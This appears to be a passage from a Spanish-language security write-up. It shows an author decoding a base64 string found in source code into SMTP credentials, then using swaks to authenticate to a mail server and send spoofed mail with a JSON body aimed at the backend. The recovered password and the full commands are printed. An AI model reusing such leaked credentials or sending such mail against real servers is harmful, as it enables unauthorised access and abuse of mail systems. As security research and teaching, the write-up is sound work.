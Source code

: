 Si decodificamos su valor, nos encontramos con un usuario y contraseña omaigat.

{% asciiart %}
    $ base64 -d <<< cG9zdGZpeHNlbmRlcjpGQ0hCZzNqcmtUNkJvaEttQ3R1aExrVjlscXFuZGVOdHAK
    postfixsender:FCHBg3jrkT6BohKmCtuhLkV9lqqndeNtp
{% endasciiart %}

Ahora al hacer el mismo ejercicio de antes, pero ingresando estas nuevas credenciales, logramos autenticarnos de manera exitosa con el servidor de correo y nuestro mensaje queda en la cola :)

{% highlight bash%}
    $ swaks --to "solicitud@dominioreal.xyz" \
			--from "webform@dominioreal.xyz" \
            --server dominioreal.xyz:25 \
            --auth-user postfixsender
            --auth-pass FCHBg3jrkT6BohKmCtuhLkV9lqqndeNtp
	=== Trying dominioreal.xyz:25...
	=== Connected to dominioreal.xyz.
	...
	<-  334 PDI3NTYwMTQwOC41MjU4MDIxQGRvbWluaW9yZWFsLnh5ej4=
	 -> cG9zdGZpeHNlbmRlciBjN2Y2ZDI0ZDE2ZmMxNzg0NTM0YmEyM2VmN2E5OTI5Ng==
	<-  235 2.7.0 Authentication successful
	 -> MAIL FROM:<webform@dominioreal.xyz>
	<-  250 2.1.0 Ok
	 -> RCPT TO:<solicitud@dominioreal.xyz>
	<-  250 2.1.5 Ok
	 -> DATA
	<-  354 End data with <CR><LF>.<CR><LF>
	 -> Date: Sat, 11 Nov 2023 23:38:55 -0300
	 -> To: solicitud@dominioreal.xyz
	 -> From: webform@dominioreal.xyz
	 -> Subject: test Sat, 11 Nov 2023 23:38:55 -0300
	 -> Message-Id: <20231111233855.149458@acheron>
	...
	<-  250 2.0.0 Ok: queued as 0F6794BA66
	 -> QUIT
	<-  221 2.0.0 Bye
    === Connection closed with remote host.
{% endhighlight %}

Aún así, no recibimos nada en nuestra casilla. Pero no lo olvidemos, el backend espera que el cuerpo del correo sea un objeto JSON! Intentemos de nuevo con un mensaje válido.

{% asciiart %}
    $ swaks --to "solicitud@dominioreal.xyz" \
            --from "webform@dominioreal.xyz" \
            --server dominioreal.xyz:25 \
            --auth-user postfixsender \
            --auth-pass FCHBg3jrkT6BohKmCtuhLkV9lqqndeNtp \
            --body '{"template":"test","email":"neo@sigint.in"}'
{% endasciiart %}

![04](/assets/images/2023-8dot8-04.png){:style="display:block; margin-left:auto; margin-right:auto"}
